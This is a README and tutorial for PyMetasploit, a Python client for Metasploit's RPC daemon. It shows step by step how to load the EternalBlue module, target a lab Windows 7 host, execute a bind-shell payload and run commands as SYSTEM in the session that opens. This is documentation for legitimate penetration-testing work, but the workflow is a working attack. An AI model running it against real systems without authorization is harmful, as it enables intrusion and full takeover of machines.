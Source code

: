 PyMetasploit - a full-fledged msfrpc library for Python
-------------------------------------------------------

PyMetasploit is a full-fledged `msfrpc` library for Python. It is meant to interact with the msfrpcd daemon that comes
with the latest versions of Metasploit. It does NOT interact with the console-based scripts that Metasploit provides
such as msfconsole, msfvenom, etc. Therefore, before you can begin to use this library, you'll need to initialize
`msfrpcd` and optionally (highly recommended) PostgreSQL.

# Requirements

Before we begin, you'll need to install the following components:

* **Metasploit:** https://github.com/rapid7/metasploit-framework
* **PostgreSQL (Optional):** http://www.postgresql.org

Installing PostgreSQL is highly recommended as it will improve response times when querying `msfrpcd` (Metasploit RPC
daemon) for module information.

# Tutorial

## Starting `msfrpcd`

`msfrpcd` accepts the following arguments:

```bash
$ ./msfrpcd -h

   Usage: msfrpcd <options>

   OPTIONS:

       -P <opt>  Specify the password to access msfrpcd
       -S        Disable SSL on the RPC socket
       -U <opt>  Specify the username to access msfrpcd
       -a <opt>  Bind to this IP address
       -f        Run the daemon in the foreground
       -h        Help banner
       -n        Disable database
       -p <opt>  Bind to this port instead of 55553
       -u <opt>  URI for Web server
```

The only parameter that is required to launch `msfrpcd` is the `-P` (password) parameter. This specifies the password
that will be used to authenticate users to the daemon. As of this writing, `msfrpcd` only supports one username/password
combination. However, the same user can log into the daemon multiple times. Unless specified otherwise, the `msfrpcd`
daemon listens on port 55553 on all interfaces (`0.0.0.0:55553`).

For the purposes of this tutorial let's start the `msfrpcd` daemon with a minimal configuration:

```bash
$ ./msfrpcd -P mypassword -n -f -a 127.0.0.1
[*] MSGRPC starting on 0.0.0.0:55553 (SSL):Msg...
[*] MSGRPC ready at 2014-04-19 23:49:39 -0400.
```

The `-f` parameter tells `msfrpcd` to remain in the foreground and the `-n` parameter disables database support.
Finally, the `-a` parameter tells `msfrcpd` to listen for requests only on the local loopback interface (`127.0.0.1`).

## `MsfRpcClient` - Brief Overview

### Connecting to `msfrpcd`

Let's get started interacting with the Metasploit framework from python:

```python
>>> from metasploit.msfrpc import MsfRpcClient
>>> client = MsfRpcClient('mypassword')
or
>>> client = MsfRpcClient('mypassword', server="127.0.0.1", port="55553", username="msf", ssl=False)
```

The `MsfRpcClient` class provides the core functionality to navigate through the Metasploit framework. Let's take a
look at its underbelly:

```python
>>> [m for m in dir(client) if not m.startswith('_')]
['auth', 'authenticated', 'call', 'client', 'consoles', 'core', 'db', 'jobs', 'login', 'logout', 'modules', 'plugins', 'port', 'server', 'sessionid', 'sessions', 'ssl', 'uri', 'verify_ssl']
>>>
```

Like the metasploit framework, `MsfRpcClient` is segmented into different management modules:

* **`auth`**: manages the authentication of clients for the `msfrpcd` daemon.
* **`consoles`**: manages interaction with consoles/shells created by Metasploit modules.
* **`core`**: manages the Metasploit framework core.
* **`db`**: manages the backend database connectivity for `msfrpcd`.
* **`modules`**: manages the interaction and configuration of Metasploit modules (i.e. exploits, auxiliaries, etc.)
* **`plugins`**: manages the plugins associated with the Metasploit core.
* **`sessions`**: manages the interaction with Metasploit meterpreter sessions.

### Running an Exploit

Just like the Metasploit console, you can retrieve a list of all the modules that are available. Let's take a look at
what exploits are currently loaded:

```python
>>> client.modules.exploits
['hpux/lpd/cleanup_exec', 'dialup/multi/login/manyargs', 'aix/rpc_ttdbserverd_realpath', 'aix/rpc_cmsd_opcode21', 'aix/local/ibstat_path', ...
'android/fileformat/adobe_reader_pdf_js_interface', 'linux/smtp/haraka']
>>>
```

We can also retrieve a list of `auxiliary`, `encoders`, `nops`, `payloads`, and `post` modules using the same syntax:

```python
>>> client.modules.auxiliary
...
>>> client.modules.encoders
...
>>> client.modules.nops
...
>>> client.modules.payloads
...
>>> client.modules.post
...
```

Now let's interact with one of the `exploit` modules:

```python
>>> exploit = client.modules.use('exploit', 'windows/smb/ms17_010_eternalblue')
>>>
```

If all is well at this point, you will be able to query the module for various pieces of information such as author,
description, required run-time options, etc. Let's take a look:

```python
>>>  print(exploit.description)

This module is a port of the Equation Group ETERNALBLUE exploit, part of the FuzzBunch toolkit released by Shadow Brokers. There is a buffer overflow memmove operation in Srv!SrvOs2FeaToNt. The size is calculated in Srv!SrvOs2FeaListSizeToNt, with mathematical error where a DWORD is subtracted into a WORD. The kernel pool is groomed so that overflow is well laid-out to overwrite an SMBv1 buffer. Actual RIP hijack is later completed in srvnet!SrvNetWskReceiveComplete. This exploit, like the original may not trigger 100% of the time, and should be run continuously until triggered. It seems like the pool will get hot streaks and need a cool down period before the shells rain in again. The module will attempt to use Anonymous login, by default, to authenticate to perform the exploit. If the user supplies credentials in the SMBUser, SMBPass, and SMBDomain options it will use those instead. On some systems, this module may cause system instability and crashes, such as a BSOD or a reboot. This may be more likely with some payloads.

>>> exploit.authors
[b'Sean Dillon <sean.dillon@risksense.com>', b'Dylan Davis <dylan.davis@risksense.com>', b'Equation Group', b'Shadow Brokers', b'thelightcosine']
>>> exploit.options
dict_keys(['TCP::send_delay', 'EnableContextEncoding', 'MaxExploitAttempts', 'GroomAllocations', 'SSLVerifyMode', 'RPORT', 'DCERPC::fake_bind_multi_append', 'SMBUser', 'DCERPC::smb_pipeio', 'DCERPC::fake_bind_multi_prepend', 'VerifyArch', 'ContextInformationFile', 'DCERPC::ReadTimeout', 'ConnectTimeout', 'GroomDelta', 'DCERPC::fake_bind_multi', 'TCP::max_send_size', 'SSLCipher', 'CHOST', 'RHOST', 'SMBPass', 'Proxies', 'SMBDomain', 'VerifyTarget', 'WfsDelay', 'WORKSPACE', 'DisablePayloadHandler', 'SSLVersion', 'VERBOSE', 'DCERPC::max_frag_size', 'ProcessName', 'CPORT', 'SSL'])
>>> exploit.required # Required options
['MaxExploitAttempts', 'GroomAllocations', 'RPORT', 'VerifyArch', 'DCERPC::ReadTimeout', 'ConnectTimeout', 'GroomDelta', 'RHOST', 'VerifyTarget', 'SSLVersion', 'DCERPC::max_frag_size', 'ProcessName']
```

~~That's all fine and dandy but you're probably really itching to pop a box with this library right now, amiright!? Let's
do it! Let's use a [Metasploitable 2](http://sourceforge.net/projects/metasploitable/) instance running on a VMWare
machine as our target. Luckily it's running our favorite version of vsFTPd - 2.3.4 - and we already have our exploit
module loaded in PyMetasploit. Our next step is to specify our target:~~  
The victim is "win7x64 pro sp1". You can also try it on x86 vm - https://developer.microsoft.com/en-us/microsoft-edge/tools/vms/

```python
>>> exploit['RHOST'] = '192.168.1.11' # IP of our target host
>>>
```

You can also specify or retrieve other options as well, as long as they're listed in `exploit.options`, using the same
method as shown above. For example, let's get and set the `VERBOSE` option:

```python
>>> exploit['VERBOSE']
False
>>> exploit['VERBOSE'] = True
>>> exploit['VERBOSE']
True
>>>
```

Awesome! So now we're ready to execute our exploit. All we need to do is select a payload:

```python
>>> exploit.payloads
['generic/custom', 'generic/shell_bind_tcp', ...
, 'windows/x64/vncinject/reverse_winhttps']
>>>
```

At this point, this exploit only supports one payload (`generic/shell_bind_tcp`). So let's pop a shell:

```python
>>> exploit.execute(payload='generic/shell_bind_tcp')
{'uuid': 'cyjpfhww', 'job_id': 0}
>>>
```

Excellent! It looks like our exploit ran successfully. How can we tell? The `job_id` key contains a number. If the
module failed to execute for any reason, `job_id` would be `None`. For long running modules, you may want to poll the
job list by checking `client.jobs.list`. Since this is a fairly quick exploit, the job list will most likely be empty
and if we managed to pop our box, we might see something nice in the sessions list:

```python
>>> client.sessions.list
{'1': {'session_port': 445, 'exploit_uuid': 'cyjpfhww', 'username': 'root', 'type': 'shell', 'desc': 'Command shell', 'via_payload': 'payload/generic/shell_bind_tcp', 'uuid': 'bkttoqtn', 'workspace': 'false', 'routes': '', 'tunnel_peer': '192.168.1.11:4444', 'session_host': '192.168.1.11', 'info': 'Microsoft Windows [Version 6.1.7601] Copyright (c) 2009 Microsoft Corporation.  All rights reserved. C:\\Windows\\system32>', 'tunnel_local': '192.168.1.21:33391', 'target_host': '192.168.1.11', 'via_exploit': 'exploit/windows/smb/ms17_010_eternalblue', 'arch': 'x64'}}
>>>
```

Success! We managed to pop the box! `client.sessions.list` shows us that we have a live session with the same `uuid` as
the one we received when executing the module earlier (`exploit.execute()`). Let's interact with the shell:

```python
>>> shell = client.sessions.session(1)
>>> shell.write('whoami\n')
>>> print(shell.read())
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>whoami
nt authority\system

C:\Windows\system32>
>>> # Happy dance!
```

This is just a sample of how powerful PyMetasploit can be. Use your powers wisely, Grasshopper, because with great power
comes great responsibility – unless you are a banker.

# Questions?

Email me at ndouba.at.gmail.com
